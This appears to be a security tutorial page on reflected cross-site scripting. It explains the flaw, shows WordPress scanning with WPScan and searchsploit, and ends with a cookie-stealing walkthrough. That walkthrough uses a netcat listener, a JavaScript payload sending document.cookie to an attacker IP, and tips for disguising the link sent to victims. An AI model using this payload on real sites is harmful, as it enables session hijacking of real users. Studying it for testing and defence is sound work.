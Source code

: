 # 4.2 Reflected XSS

## Reflected XSS

{% embed url="https://portswigger.net/web-security/cross-site-scripting/reflected" %}

<figure><img src="../../.gitbook/assets/image (107).png" alt=""><figcaption><p><a href="https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/">https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/</a></p></figcaption></figure>

Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

Suppose a website has a search function which receives the user-supplied search term in a URL parameter:

`https://insecure-website.com/search?term=gift`

The application echoes the supplied search term in the response to this URL:

`<p>You searched for: gift</p>`

Assuming the application doesn't perform any other processing of the data, an attacker can construct an attack like this:

`https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>`

This URL results in the following response:

`<p>You searched for: <script>/* Bad stuff here... */</script></p>`

If another user of the application requests the attacker's URL, then the script supplied by the attacker will execute in the victim user's browser, in the context of their session with the application.

### Exploiting Reflected XSS Vulnerabilities in WordPress

<details>

<summary>What is WordPress?</summary>

WordPress is a popular open-source content management system (CMS) used for creating websites and blogs. It provides a user-friendly interface and a wide range of plugins and themes, making it easy for users to build and customize their websites without needing extensive technical knowledge. WordPress is highly customizable, scalable, and is used by millions of websites worldwide.

</details>

Mainly by not frequently updating installed themes and plugins versions, vulnerabilities may occur, and this is where the WPScan tool comes in.

WPScan is a security scanner specifically designed to test the security of WordPress websites. It can identify security vulnerabilities in WordPress installations, themes, and plugins. WPScan works by scanning the target website for known security issues, such as outdated software versions, weak passwords, and common configuration errors. It helps website owners and developers identify and fix security flaws to protect their websites from potential attacks and breaches.

We can install it using following command: `sudo apt-get install wpscan`



{% embed url="https://github.com/wpscanteam/wpscan" %}

* Go to wpscan.com, register, login and configure account.
* Generate an API key/token
* Launch scan -> `wpscan --url <Website_URL>`
* See results and search potential exploit on exploitdb using `searchsploit <vulnerability_name>`
* Encode and shorten the link possibly to be sent to the victim (to hiding JS tags)

### Cookie Stealing Via Reflected XSS

* First verify that website is vulnerable to XSS -> `<script>alert("XSS")</script>`
* Take on listening on attacker machine using netcat -> `nc -lvnp 4444`
* Insert payload at the end of website -> n`ew Image() .src='http://<Attacker_IP>:4444/?cookie=' + encodeURI(document.cookie);`
* Encode and shorten the link possibly to be sent to the victim (to hiding JS tags), we can use BurpSuite decoder

<figure><img src="../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

* Obtain connection on netcat in listening.
